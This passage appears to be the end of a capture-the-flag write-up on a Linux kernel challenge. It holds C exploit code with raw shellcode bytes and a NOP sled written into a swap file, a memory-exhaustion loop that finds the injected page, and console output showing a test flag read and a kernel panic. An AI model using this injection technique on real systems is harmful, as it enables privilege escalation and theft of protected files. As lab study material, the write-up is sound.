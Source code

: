 ```c
            0x6a, 0x1, 0xfe, 0xc, 0x24, 0x48, 0xb8, 0x2f, 0x64, 0x65, 0x76, 0x2f, 0x66, 0x64, 0x30, 0x50, 0x48, 0x89, 0xe7, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x2, 0x58, 0xf, 0x5, 0x48, 0x89, 0xc7, 0x31, 0xc0, 0x31, 0xd2, 0xb6, 0x1, 0xbe, 0x1, 0x1, 0x1, 0x1, 0x81, 0xf6, 0x1, 0x46, 0x71, 0x1, 0xf, 0x5, 0x6a, 0x1, 0x5f, 0x31, 0xd2, 0xb6, 0x1, 0xbe, 0x1, 0x1, 0x1, 0x1, 0x81, 0xf6, 0x1, 0x46, 0x71, 0x1, 0x6a, 0x1, 0x58, 0xf, 0x5
        };
        // empty needle using nop, slip backward to our real shellcode 
        memset(sc, 0x90, sizeof(NEEDLE));
        if (fwrite(sc, 1, sizeof(sc), fp) != sizeof(sc)) // write to swap file
            die("fwrite failed");
        fclose(fp); 
        sleep(1);
        printf("found needle at offset : %p\n", offset);
        return 1;
    }
    memset(swap_buf, 0, swap_size);
    fclose(fp);
    return 0;
}

int main(int argc, char *argv[]){
    // consume some ram first
    for(int i=0; i<10; i++){
        void *res = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (res == (void *) -1) die("mmap error");
        memset(res, 0xcc, PAGE_SIZE);
    }

    printf("swap_buf at %p\n", swap_buf);

    // keep mmaping, search for strings every iteration
    int i = 0;
    while(++i < (320*6)){
        void *res = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
        if (res == (void *) -1) die("mmap error");
        memset(res, 0xcc, PAGE_SIZE);
        if (i%50 == 0) printf("%d\n", i);
        if (match()) break;
    }
    return 0;
}
```

Excellent! After only two attempts, we get flag!

```
/ $ /exp
swap_buf at 0x4c4300
50
[    6.048215] Out of memory: Killed process 82 (exp) total-vm:50740kB, anon-rss:10288kB, file-rss:4kB, shmem-rss:29584kB, UID:1 pgtables:136kB oom_score_adj:0
Killed
/ $ /exp
swap_buf at 0x4c4300
50
found needle at offset : 0x592277
@Gp@GpXGpXGp�Gp�Gp�Gp�Gp�Gp�Gp�Gp�Gp�Gpflag{TEST}
[   12.215551] init[1]: segfault at 100 ip 00000000004d12f2 sp 00007ffe3b5fe908 error 4 in busybox[400000+104000]
[   12.216620] Code: 31 d2 b6 01 be 01 01 01 01 81 f6 01 46 71 01 0f 05 6a 01 5f 31 d2 b6 01 be 01 01 01 01 81 f6 01 46 71 01 6a 01 58 0f 05 14 d6 <48> 8b 0a 48 85 c9 0f 84 8a 00 00 00 48a
[   12.217481] Kernel panic - not syncing: Attempted to kill init! exitcode=0x0000000b
```